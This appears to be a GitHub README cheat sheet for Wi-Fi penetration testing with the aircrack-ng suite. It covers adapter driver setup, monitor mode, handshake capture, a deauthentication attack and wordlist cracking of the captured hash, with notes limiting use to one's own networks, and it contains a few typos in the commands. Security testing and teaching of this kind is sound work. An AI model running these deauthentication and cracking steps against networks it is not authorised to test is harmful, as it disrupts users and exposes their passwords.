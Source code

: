 # Wireless Penetration Testing

## Installing Drivers AWUS036ACH on Kali 2022.2

```
sudu su
apt-get update
apt-get upgrade
apt-get dist-upgrade
reboot
apt-get install realtek-rtl88xxau-dkms
apt-get install dkms
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au/
make
make install
```

## Check if adapter is on
```
airmon-ng
```

## Check other services
```
airmon-ng check
```

## Check kill services (could interfere with monitor mode)
```
airmon-ng check kill
```

## Check if adapter is available
```
iwconfig
```

## Start airmon-ng <interface>
```
airmon-ng start wlan0
iwconfig

At this point, should see our wlan0 card in monitor mode (wlan0mon)
```

## See what Access Points are running
```
airodump-ng wlan0
Ctrl + C to stop
```

## Capture Handshake
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**

```
airodump --bssid <mac address of ap> --channel <id> wlan0 --output-format pcap --write <name of pcap>
```

## Deauthentication Attack
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**
```
aireplay-ng -0 1 -a <mac addredss of ap> -c <mac address of client> wlan0
```

## Stop airomon-ng <interface>
```
airmon-ng stop wlan0
```

## Audit password strength of captured network hash
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**
```
aircrack-ng <name of pcap> -w /usr/share/wordlists/rockyou.txt
```